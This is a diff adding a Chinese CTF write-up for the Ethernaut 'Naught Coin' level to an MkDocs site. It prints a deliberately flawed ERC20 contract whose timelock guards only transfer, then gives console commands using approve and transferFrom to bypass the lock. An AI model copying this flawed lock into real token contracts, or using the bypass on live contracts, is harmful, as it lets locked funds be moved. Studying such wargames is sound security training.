

Before and after one commit to YanhuiJessica/Chictf-Writeups, an MkDocs documentation site: the page built from docs/wargames/ethernaut.md, in a window 1280 px wide and 1400 px high, scrolled down 23172 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 23746 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
ethernaut 15

````diff
--- a/docs/wargames/ethernaut.md
+++ b/docs/wargames/ethernaut.md
@@ -1096,3 +1096,73 @@ contract Hack {
 ### 参考资料
 
 [Inline Assembly](https://docs.soliditylang.org/en/v0.6.0/assembly.html#inline-assembly)
+
+## 15. Naught Coin
+
+取出被锁住的硬币，清空自己的余额
+
+```js
+// SPDX-License-Identifier: MIT
+pragma solidity ^0.6.0;
+
+import '@openzeppelin/contracts/token/ERC20/ERC20.sol';
+
+contract NaughtCoin is ERC20 { // 基于 ERC20
+
+  // string public constant name = 'NaughtCoin';
+  // string public constant symbol = '0x0';
+  // uint public constant decimals = 18;
+  uint public timeLock = now + 10 * 365 days;
+  uint256 public INITIAL_SUPPLY;
+  address public player;
+
+  constructor(address _player)
+  ERC20('NaughtCoin', '0x0')
+  public {
+    player = _player;
+    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
+    // _totalSupply = INITIAL_SUPPLY;
+    // _balances[player] = INITIAL_SUPPLY;
+    _mint(player, INITIAL_SUPPLY); // Creates INITIAL_SUPPLY tokens and assigns them to player
+    emit Transfer(address(0), player, INITIAL_SUPPLY);
+  }
+
+  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
+    // super 继承直接父合约的 transfer 函数
+    super.transfer(_to, _value);  // 将调用者 _value 数量的金额转移给 _to
+  }
+
+  // Prevent the initial owner from transferring tokens until the timelock has passed
+  modifier lockTokens() {
+    if (msg.sender == player) {
+      require(now > timeLock);
+      _;
+    } else {
+     _;
+    }
+  }
+}
+```
+
+- `lockTokens` 限制了 `player`，而被覆写的 `transfer` 只能由持有货币的账户发起转账
+- `NaughtCoin` 合约是 `ERC20` 的子合约，在合约 `ERC20` 中除了定义 `transfer` 还有 `transferFrom` 函数，由此可以绕过 `lockTokens` 的限制
+
+    ```
+    transferFrom(address sender, address recipient, uint256 amount) → bool
+    ```
+
+- 在调用 `transferFrom` 之前需要取得 `msg.sender` 的授权
+
+    ```js
+    >> await contract.approve(player, await contract.INITIAL_SUPPLY())
+    ```
+
+- 发起转账
+
+    ```js
+    >> await contract.transferFrom(player, instance, await contract.INITIAL_SUPPLY())
+    ```
+
+### 参考资料
+
+[ERC 20 - OpenZeppelin Docs](https://docs.openzeppelin.com/contracts/2.x/api/token/erc20#ERC20-_mint-address-uint256-)
````
Also changed, not shown: other parts of docs/wargames/ethernaut.md (+8 -8 lines).
